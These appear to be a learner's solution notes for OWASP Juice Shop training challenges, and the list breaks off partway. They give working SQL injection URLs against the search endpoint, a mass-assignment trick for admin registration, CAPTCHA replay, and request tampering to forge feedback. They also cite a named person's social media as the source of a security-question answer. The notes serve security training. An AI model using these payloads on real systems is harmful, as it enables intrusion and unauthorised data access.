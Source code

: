 In the left window on the second floor there is a poster.  You can bearly make out "ITsec"

> ITsec

### Weird Crypto

> Your passwords are weak because they are using an unsalted MD5 hash for storage.

## Difficulty 3 Notes

### Admin Registration

Added "role", "admin" to the register json payload

### Bjoern's Favorite Pet

Found on @bkimminich twitter account

> Zaya

### CAPTCHA Bypass

You can just resubmit responses since the captchaid doesn't expire.

### CSRF

TBD

### Database Schema

Found SQL injection in the search parameter

Base:

> http://localhost:3000/rest/products/search?q=asfafaf')) UNION select '','','','','','','','','' FROM sqlite_schema--

Schema command:

> http://localhost:3000/rest/products/search?q=asfafaf')) UNION select sql,'','','','','','','','' FROM sqlite_schema--

### Deluxe Fraud

TBD

### Forged Feedback

Just change the 'UserId' on a feedback request

### Forged Review

TBD

### GDPR Data Erasure
